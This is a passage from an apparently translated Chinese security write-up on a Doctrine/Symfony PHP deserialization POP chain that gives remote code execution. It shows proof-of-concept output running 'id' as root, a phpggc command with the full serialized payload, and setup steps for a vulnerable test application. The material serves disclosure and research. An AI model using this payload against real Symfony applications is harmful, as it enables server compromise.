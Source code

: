 ```bash
    ');#'
);
$replace_include = 'i:' . 2000 . ';';
echo preg_replace($find_include, $replace_include, $serialized_string2);
}
```

运行它将执行两个 POP 链，并将在系统上执行任意代码。

```bash
$ php unserialize.php 
a:1:{i:0;s:46:"I was TRIGGEREDuid=0(root) gid=0(root) groups=0(root)
";}
Fatal error: Uncaught TypeError: Doctrine\Common\Cache\Psr6\CacheAdapter::commit(): Return value must be of type bool, null returned in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:235
[...]
```

全链已经在 phpggc 项目上推送，基本上是寻找公开披露的 POP 链时的参考项目。

[https://github.com/ambionics/phpggc/tree/master/gadgetchains/Doctrine/RCE/1](https://github.com/ambionics/phpggc/tree/master/gadgetchains/Doctrine/RCE/1)

使用 phpggc 生成本文中讨论的 POP 链如下：

```bash
$ phpggc Doctrine/rce1 'system("id");'          
a:4:{i:1000;O:39:"Doctrine\Common\Cache\Psr6\CacheAdapter":3:{s:13:"deferredItems";a:1:{i:0;O:41:"Doctrine\Common\Cache\Psr6\TypedCacheItem":2:{s:6:"expiry";i:99999999999999999;s:5:"value";s:4:"test";}}s:6:"loader";i:1;s:5:"cache";O:71:"Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage":5:{s:7:"started";b:1;s:8:"savePath";s:4:"/tmp";s:2:"id";s:3:"aaa";s:4:"data";a:1:{i:0;s:22:"<?php system("id"); ?>";}s:11:"metadataBag";O:60:"Symfony\Component\HttpFoundation\Session\Storage\MetadataBag":1:{s:10:"storageKey";s:1:"a";}}}i:1000;i:1;i:2000;O:39:"Doctrine\Common\Cache\Psr6\CacheAdapter":3:{s:13:"deferredItems";a:1:{i:0;O:41:"Doctrine\Common\Cache\Psr6\TypedCacheItem":2:{s:6:"expiry";i:0;s:5:"value";s:4:"test";}}s:6:"loader";i:1;s:5:"cache";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":1:{s:4:"pool";O:47:"Symfony\Component\Cache\Adapter\PhpArrayAdapter":1:{s:4:"file";s:17:"/tmp/aaa.mocksess";}}}i:2000;i:1;}
```

影响范围是自 1.5.1 版本以来， `doctrine/doctrine-bundle` 包的所有版本都受到影响。

## 如何攻击一个基于 Symfony 的应用程序

### GIF 攻击演示

如果你想设置环境，你需要创建一个 Symfony 应用程序并安装环境。在真实的环境中，只要 Symfony 应用程序使用 doctrine 作为其 ORM，就会安装 `doctrine/doctrine-bundle` 。

对于此 POC 验证，项目环境设置如下，可以通过运行这些命令来复制它。

```bash
$ docker run -it -p 8000:80 php:8.1-apache /bin/bash        
$ apt update && apt install wget git unzip libzip-dev
$ wget https://getcomposer.org/installer -O composer-setup.php
$ php composer-setup.php
$ mv composer.phar /usr/local/bin/composer
$ a2enmod rewrite
$ cd /var/www
$ composer create-project symfony/skeleton:"6.2.*" html
$ composer require symfony/maker-bundle --dev
$ php bin/console make:controller UnserializeController
$ composer require symfony/apache-pack
$ composer require doctrine/orm
$ composer require doctrine/doctrine-bundle
$ cat config/routes.yaml 
controllers:
    resource:
```